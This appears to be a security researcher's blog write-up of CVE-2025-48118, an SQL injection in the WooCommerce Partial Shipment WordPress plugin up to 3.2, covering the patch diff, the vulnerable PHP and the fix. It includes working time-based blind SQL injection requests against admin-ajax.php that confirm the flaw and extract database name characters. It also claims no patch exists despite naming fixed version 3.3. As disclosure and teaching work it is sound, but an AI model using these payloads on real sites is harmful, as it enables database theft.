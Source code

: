 # CVE-2025-48118 Analysis & POC


<!--more-->

The vulnerability occurs in the **Woocommerce Partial Shipment** plugin for WordPress prior to version **3.3**.  
It allows attackers to directly interact with the database, potentially leading to data theft and other attacks.

- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)  
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)  
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2  
- **CVSS Severity**: High (8.5)  
- **Required Privilege**: Subscriber  

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
- **Woocommerce Partial Shipment**: v3.2 (vulnerable) and v3.3 (patched)
- **Diff Tool**: **meld** or any comparison tool to view differences between versions
- **Activated WooCommerce Plugin**: must be **activated** before installing **Woocommerce Partial Shipment Plugin**, since several WooCommerce functions are used.

## Analysis
The root cause lies in directly injecting **POST** request data into an SQL query without proper sanitization or validation.

### Patch Diff
Use any diff tool to compare the vulnerable and patched versions.  
A significant difference appears in **wc-partial-shipment/woocommerce-partial-shipment.php**.

However, since the developer made many changes, locating the vulnerable line can be difficult.

> In WordPress, for SQLi to occur, the application must interact with the database using the global variable `$wpdb`.  
> Searching for this keyword inside **wc-partial-shipment/woocommerce-partial-shipment.php** helps identify possible sinks.

![search sink](search_sink.png "Sink location found in source code")

`get_shipment_id` and `get_wxp_shipment_data` are two functions in the **WXP_Partial_Shipment** class that directly insert user input into SQL queries without validation, making them vulnerable to SQL Injection.

![Patch](patch.png "Comparison between vulnerable and patched version")

The patch uses `$wpdb->prepare()` to safely construct SQL queries instead of **direct string concatenation** with user input.  
This ensures all values are **properly escaped** before being inserted into the SQL query, effectively mitigating SQL Injection risks.

### How it works
Both `get_shipment_id` and `get_wxp_shipment_data` are called by the function `wxp_order_set_shipped` within the same class.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
````

👉 The `order_id` parameter is taken directly from the **POST request**, making it user-controlled and allowing it to be passed into vulnerable SQL queries within `get_shipment_id` and `get_wxp_shipment_data`.

To find where `wxp_order_set_shipped` is called, search for the keyword `wxp_order_set_shipped` inside the plugin directory.

![Search 1](search_1.png "Location of wxp_order_set_shipped function call")

`wxp_order_set_shipped` is registered in the class constructor as a callback for the `wp_ajax_wxp_order_set_shipped` hook, meaning it can be triggered by authenticated users.

👉 Accessing `/wp-admin/admin-ajax.php` with the parameters:

```http
action=wxp_order_set_shipped&order_id=payload_here
```

will trigger the following:

* The callback `wxp_order_set_shipped` executes.
* `order_id` is taken directly from the request and inserted into SQL queries.
* The query executes twice due to its usage in two separate SQL calls containing the malicious payload.

## Exploit

### Detecting SQLi

Send a **POST request** containing an SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

This results in the query:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Because the query executes twice, the response time doubles.

![time response](time_resp.png "Response time after successful exploitation")

A **subquery in the FROM clause** is used because MySQL treats it as a temporary table.
The subquery executes once to create the temporary table, and the main query runs afterward.
This ensures the `SLEEP` function runs only once instead of being multiplied across multiple comparisons.

For example, using the following payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

The response time increases exponentially.

![search 2](search_2.png "Exponential response time increase")

### Extracting the First Letter of the Database Name

The first step in data extraction is confirming at least one character of the **database name** — once retrieved, the rest can be dumped easily.

Send a request with the following **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first letter of the **database name**, and `IF()` triggers `SLEEP(5)` if it equals `0x77` ('w').

Hex encoding (`0x77`) is used for `'w'` because the `order_id` parameter, being a **POST** value, is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) and `sanitize_text_field` in WordPress.

👉 Based on the delayed response, we confirm that the first character is `'w'`.

## Conclusion

The **CVE-2025-48118** vulnerability in the WordPress **Woocommerce Partial Shipment** plugin (versions before 3.3) originates from directly inserting unsanitized user input into SQL queries, resulting in a **SQL Injection** vulnerability.

No official patch has been released at the time of writing.

**Key Takeaways:**

* Always validate and sanitize user input.
* Use `$wpdb->prepare()` for database operations in WordPress to prevent SQL Injection.
* Keep plugins updated and perform regular security audits to avoid being an attack target.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)

---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-29-cve-2025-48118/  

